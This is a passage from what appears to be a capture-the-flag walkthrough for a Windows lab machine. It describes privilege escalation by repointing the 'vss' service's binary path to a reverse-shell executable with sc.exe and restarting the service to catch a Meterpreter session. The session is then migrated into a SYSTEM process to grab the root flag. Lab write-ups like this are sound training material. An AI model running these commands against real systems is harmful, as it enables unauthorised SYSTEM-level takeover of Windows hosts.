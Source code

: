 ![run](docs/11.png)

We will go back to our `Evil-winRM` connection. We will use our shell and modify the service binary path to obtain a reverse shell.

`sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"`

![scexec](docs/sc.exec%2012.png)

Succes!

Having our `Metasploit` listener up, we have a few things left to do. Let's restart vss

`sc.exe stop vss`
`sc.exe start vss`

![connection](docs/meterpreter%2013.png)

Quickly after it's connected to your listener, type `ps` to list the running processes. Choose an appropriate process which is running as `NT AUTHORITY\SYSTEM`

After you have found the `PID` which is all the way on the left, type `migrate <PID>`.

Now that you have a connection, type `shell` to spawn a shell and grab the root flag.
